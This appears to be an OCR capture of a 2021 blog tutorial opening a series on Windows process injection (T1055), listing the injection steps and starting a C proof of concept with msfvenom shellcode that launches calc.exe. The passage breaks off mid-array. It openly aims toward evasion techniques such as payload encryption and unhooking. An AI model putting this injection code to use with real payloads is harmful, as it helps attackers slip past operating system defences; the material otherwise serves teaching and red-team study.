 ```yaml
---
title: T1055 - Basics of Process Injection - Part 1
author: Khush V
date: 2021-04-05 14:10:00 +0000
categories: [TTPs, T1055 - Process Injection]
tags: [process injection, T1055]
---
```


# Introduction

This guide aims to gently introduce the concepts of process injection, beginning with a naive and simple Proof of Concept code and iterating this with additional functionality such as injecting into different processes, encryption of payloads, obfuscating function calls, using DLLs & EXEs, unhooking and general evasion techniques. In each iteration, the aim is to introduce a new technique that can be applied to the code in order to improve it. 

## Process injection - Back to Basics

Process injection is a technique used in order to execute code, typically in another process. This allows an adversary to be stealthy in their approach and bypass operating system defences. There are mainly three different types of payloads that can be injected:
- Shellcode injection
- DLL injection
- Exe injection

At its core, a simple process injection technique can be reduced down to the following actions:
- Pick a target process. For now, we'll inject into our own process. 
- Before we can write some code into the process, we need to know where we can write code to. We can request the operating system to allocate some memory for us. 
- Write said code.
- Get the process to execute this code in some manner.

The above steps can be reciprocated using Win32 API function calls as we'll see below.


## 1 - Shellcode Inject Proof of Concept 

We'll begin with a simple process injection that will inject shellcode. For now, we'll inject into our own local process, in order to keep things fairly simple.   
```
#include "Windows.h"
#include "stdio.h"

int main()
{
	/*
	msfvenom -p windows/exec CMD=calc.exe -f c
	length: 519 bytes
	*/
	unsigned char payload[] =
		"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
		"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
		"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
		"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
		"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
		"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
		"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
		"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
		"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
		"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
		"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
		"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
```